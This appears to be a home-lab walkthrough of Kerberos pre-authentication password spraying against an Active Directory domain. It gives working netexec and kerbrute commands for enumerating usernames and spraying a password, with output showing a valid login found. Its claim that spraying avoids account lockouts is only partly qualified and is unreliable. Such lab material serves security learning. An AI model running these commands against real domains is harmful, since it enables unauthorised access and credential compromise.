 # 🔐 **What is Kerberos Pre-Authentication?**
When a user wants to log into a service, Kerberos requires the client to encrypt a timestamp with the user's password (actually a derived key) and send it to the **Key Distribution Center (KDC)**.

- If the password is correct, the KDC can decrypt the timestamp and issue a **Ticket Granting Ticket (TGT)**.
- If the password is wrong, the KDC responds with an error.

---

###  **What is Pre-Auth Bruteforce?**
If **Kerberos pre-authentication is enabled** (which it usually is), attackers can't just request a ticket without knowing the password. But they **can**:

1. **Send an AS-REQ (Authentication Service Request)** to the KDC with an **invalid timestamp** (encrypted using a guessed password).
2. If the guess is correct, the KDC responds with a valid TGT.
3. If the guess is wrong, the KDC returns an error.

So, by automating this, attackers can **bruteforce usernames and passwords**.

---


###  Kerberos Pre-Authentication Password Spray (Kerbrute)

##  Goal
Identify valid user-password pairs in an Active Directory environment **without triggering account lockouts** by performing a **Kerberos Pre-Auth brute-force** using `kerbrute`.

---

###  Step 1: Enumerate Valid Usernames

Use `netexec` to pull valid usernames from SMB responses.

```bash
nxc smb 192.168.129.140 -u jack -p complex1@ --users | awk '/^SMB/ && $5 ~ /^[a-zA-Z0-9_.]+$/ { print $5 }' | tee -a username.txt
```

**Output (example):**
```
Administrator
Guest
krbtgt
jack
hwilliam
jcharles
mjames
Haseeb
Radeel
Abdullah
```

---

###  Step 2: Spray a Known Password Across All Users

Let's say we discovered the password `complex4@` somewhere, but don't know which user it belongs to.

We can use `kerbrute` to spray the password across all usernames.

```bash
./kerbrute passwordspray -d furious.local username.txt complex4@ --dc 192.168.129.140
```

**Example Output:**
```
──(kali㉿kali)-[~/Home-lab/Kerbrose/kerbrose-Pre-Auth]
└─$ ./kerbrute passwordspray -d furious.local username.txt complex4@ --dc 192.168.129.140



    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/24/25 - Ronnie Flathers @ropnop

2025/04/24 05:53:49 >  Using KDC(s):
2025/04/24 05:53:49 >   192.168.129.140:88

2025/04/24 05:53:49 >  [+] VALID LOGIN:  jcharles@furious.local:complex4@
2025/04/24 05:53:49 >  Done! Tested 20 logins (1 successes) in 0.186 seconds
                                                                                            
```

---

##  Why This Works

- `kerbrute` sends AS-REQs to the KDC (Kerberos Domain Controller).
- If pre-auth is enabled (default), the server will check the password by decrypting the timestamp in the AS-REQ using the hash of the user's password.
- If it's valid, you'll get a TGT response. If not, it's rejected.
- No lockout occurs **as long as accounts are configured not to lock on AS-REQ failures.**

---
